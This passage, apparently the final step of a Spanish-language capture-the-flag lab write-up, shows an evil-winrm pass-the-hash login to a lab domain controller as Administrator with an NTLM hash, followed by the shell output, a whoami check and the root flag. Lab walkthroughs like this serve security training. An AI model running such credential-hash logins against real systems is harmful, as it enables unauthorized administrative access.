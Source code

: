 Efectivamente podemos asi que solo queda entrar.

```bash
evil-winrm -i SOUPEDECODE.LOCAL -u 'Administrator' -H '8982babd4da89d33210779a6c5b078bd'
```

Info:
```
vil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
``` 

Ya tenemos acceso como administrador!

Dentro de la carpeta Desktop encontramos la flag de root:

```
d41d8cd98f00b204e9800998ecf8427e
```